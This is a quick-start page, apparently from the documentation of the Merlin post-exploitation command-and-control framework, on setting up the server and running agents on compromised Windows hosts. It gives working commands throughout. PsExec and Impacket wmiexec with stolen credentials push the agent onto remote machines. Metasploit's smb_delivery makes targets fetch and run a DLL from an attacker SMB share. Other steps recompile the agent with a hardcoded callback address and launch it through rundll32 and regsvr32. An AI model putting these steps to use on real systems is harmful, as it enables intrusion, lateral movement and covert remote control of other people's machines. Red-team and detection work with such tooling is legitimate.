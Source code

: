 ```yaml
---
title: "Quick Start"
description: "Get started with Merlin Server and Agent quickly"
icon: "rocket"
---
```


## Merlin Server

The quickest and recommended way is to download Merlin Server from the [releases](https://github.com/Ne0nd0g/merlin/releases)
page for your host operating system (i.e Windows, macOS, or Linux).

The following single line of code can be used to download, extract, and run Merlin Server on an Ubuntu Server:

```bash
sudo bash;apt update;apt install p7zip-full -y;cd /opt;wget https://github.com/Ne0nd0g/merlin/releases/latest/download/merlinServer-Linux-x64.7z;7z x -pmerlin -omerlin merlinServer-Linux-x64.7z;cd merlin;./merlinServer-Linux-x64
```

If you're using 7zip from the command line, but sure to use the `x` flag so that the files are extracted into their respective directories.

<Info>
**The Merlin Server file download includes the CLI and compiled agents for all 3 major platforms in the** `data/bin/` **directory**
</Info>

## Merlin Agent

Merlin is a post-exploitation framework and therefore documentation doesn't cover any of the steps required to get to a
point where you can execute code or commands on a compromised host. Exploiting or accessing a host must performed prior
to leveraging Merlin.

<Info>
**Pre-compiled Merlin Agent binary files are distributed with the server download in the** `data/bin/` **directory of Merlin**
</Info>

The Merlin Agent source code can be found https://github.com/Ne0nd0g/merlin-agent

Retrieve with Go and build the Agent:

```bash
go get github.com/Ne0nd0g/merlin-agent
```

### Upload & Execute

One of the more simple ways to run Merlin is by uploading the compiled binary file to a compromised host and then execute that binary.

<Info>
Don't forget to specify the address of your Merlin server with the `-url` flag. Default is `https://127.0.0.1:443/`
</Info>

### Windows Local Command Execution

This section covers executing the Merlin agent with local command execution.

#### Windows EXE - cmd.exe

With the `merlinAgent.exe` binary file already downloaded on to the compromised host, execute it by calling it from the
command line. Double clicking the executable file will cause the agent to run **without** a window, so you will not see
anything, and it will connect to the **default** URL of `https://127.0.0.1:443/`.
This can be changed by recompiling the agent with the hardcoded address of your Merlin server.

```cmd
C:\Users\Bob\Downloads>merlinAgent.exe -url https://192.168.1.100:443/
```

#### Windows DLL - rundll32.exe

With the `merlin.dll` binary file already downloaded on to the compromised host, execute it by calling it from the
command line using the `rundll32.exe` program that comes with Windows.
`Run` is the name of the DLL entrypoint called when the DLL is executed.
Provide the URL for your listening Merlin server after the entrypoint.

```cmd
C:\Users\Bob\Downloads>C:\WINDOWS\System32\rundll32.exe merlin.dll,Run https://192.168.1.100:443/
```

### Windows Remote Command Execution

This section covers executing Merlin agent when remotely accessing a host.

#### Windows EXE - PsExec.exe

The Microsoft Sysinternals [PsExec.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) application
can be used to connect to a remote host, upload the Merlin agent file, and execute it.
The downside to this is the Merlin agent binary file is "on disk" and provides an opportunity for Anti-Virus software
to detect the application. Use PsExec's `-c` flag to specify the location of the Merlin agent file on the attacker's
host that will be uploaded to the remote host. The PsExec `-d` flag is required so that control is returned to the user
after executing the Merlin agent file.

```powershell
PS C:\SysinternalsSuite>.\PsExec.exe \\192.168.1.10 -u bob -p password -d -c C:\merlin\data\bin\windows\merlinAgent.exe -url https://192.168.1.100:443/
```

#### Windows DLL - Metasploit's SMB Delivery

One method for delivery is to use an SMB server to host the payload and execute a command on the remote host to download
and run the Merlin agent file. The Metasploit `windows/smb/smb_delivery` module is a good way to quickly stand up an SMB
server for delivering the payload.

Setup the `windows/smb/smb_delivery` module:

```bash
msf > use windows/smb/smb_delivery
msf exploit(windows/smb/smb_delivery) > set FILE_NAME merlin.dll
FILE_NAME => merlin.dll
msf exploit(windows/smb/smb_delivery) > set EXE::Custom /opt/merlin.dll
EXE::Custom => /opt/merlin/data/bin/dll/merlin.dll
msf exploit(windows/smb/smb_delivery) > set DisablePayloadHandler true
DisablePayloadHandler => true
msf exploit(windows/smb/smb_delivery) > set VERBOSE true
VERBOSE => true
msf exploit(windows/smb/smb_delivery) > run
[*] Exploit running as background job 0.
msf exploit(windows/smb/smb_delivery) >
[*] Server started.
[*] Run the following command on the target machine:
[*] Using custom payload /opt/merlin.dll, RHOST and RPORT settings will be ignored!
rundll32.exe \\192.168.1.100\WxlV\merlin.dll,0
```

<Note>
**NOTE:** We must change the DLL entry point from `0` to `Run` and provide the URL of the listening Merlin server
</Note>

Now that the SMB server is setup to deliver the `merlin.dll` file, we need to remotely access the target host and
execute the command. By default, Metasploit sets the entry point to `0`. We need to modify the command to change the
entry point to `Run` and specify the location of our listening Merlin server.
[Impacket's](https://github.com/CoreSecurity/impacket) `wmiexec.py` Python program is one way to remotely access a host.

wmiexec.py example:

<Note>
**NOTE:** We must change the DLL entry point from `0` to `Run` and provide the URL of the listening Merlin server
</Note>

```text
root@kali:/opt/impacket/examples# python wmiexec.py bob:password@192.168.1.10
Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

[*] SMBv2.1 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>rundll32.exe \\192.168.1.100\WxlV\merlin.dll,Run https://192.168.1.100:443/
```

## Advanced

The quick start examples above executed the Merlin agent and allowed the user to dynamically specify the location of the
listening Merlin server with a command line parameter. There are a few instances where we the user is unable to specify,
or simply don't want to, the URL for the listening Merlin server. In this case, the Merlin agent binary should be
recompiled with a hardcoded URL of the listening Merlin server so that it does not need to be specified by the user
during execution.

<Warning>
*Do not continue on unless you are OK to deal with things that sometimes work and often have bugs and are not reliable.*
</Warning>

<Info>
This will require that you have Go and gcc installed on the host compiling the application
</Info>

### Recompile DLL

The `merlin.dll` file can be configured with the hardcoded url of your Merlin server.
To do this, clone the repo, modify the file, and recompile it.

1. Clone the merlin repository using git
2. Edit the `main.go` file
3. Find the string `var url = "https://127.0.0.1:443/"` and change the address
4. Compile the DLL

```bash
cd /opt
git clone -b dev https://github.com/Ne0nd0g/merlin-agent-dll.git
cd merlin-agent-dll
sed -i 's_https://127.0.0.1:443/_https://192.168.1.100:443/_' main.go
make
```

This will leave the `merlin.dll` in the `bin/v0.5.0/` directory where `v0.5.0` is the current version number of Merlin.
Now the recompiled version of the DLL can be run without having to specify the address of the Merlin server.

rundll32.exe examples:

- `rundll32.exe merlin,main`
- `rundll32.exe merlin,Run`

regsvr32.exe examples:

- `regsvr32.exe /s merlin.dll`
- `regsvr32.exe /s /u merlin.dll`
- `regsvr32.exe /s /n /i merlin.dll`
